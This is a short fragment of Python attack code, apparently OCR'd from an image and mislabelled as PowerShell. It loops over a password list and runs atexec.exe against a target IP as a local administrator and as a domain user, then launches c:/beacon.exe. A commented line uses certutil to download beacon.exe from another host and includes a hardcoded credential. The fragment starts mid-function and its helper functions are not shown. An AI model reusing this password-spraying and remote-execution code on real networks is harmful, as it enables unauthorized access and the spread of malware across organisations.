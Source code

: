    ``` powershell
               for mima in passs:
   
                   # exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
   
                   exec1 = 'atexec.exe ./administrator:' + mima + '@' + ip + ' "c:/beacon.exe"'
   
                   exec2 = 'atexec.exe god/' + user + ':' + mima + '@' + ip + ' "c:/beacon.exe"'
   
                   #exec3='atexec.exe ./administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   print('--->' + exec1 + '<---')
   
                   print('--->' + exec2 + '<---')
   
                   os.system(exec1)
   
                   os.system(exec2)
   
   
   if __name__ == '__main__':
   
       down()
   
       exec()
   ```

